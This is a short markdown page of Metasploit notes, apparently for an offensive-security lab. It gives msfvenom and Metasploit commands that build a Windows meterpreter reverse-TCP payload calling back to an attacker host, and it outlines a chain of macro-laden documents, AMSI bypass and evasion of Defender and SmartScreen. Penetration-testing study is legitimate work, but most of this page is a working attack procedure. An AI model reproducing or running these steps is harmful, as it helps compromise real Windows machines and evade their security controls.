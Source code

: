 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript "migrate -n explorer.exe"
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
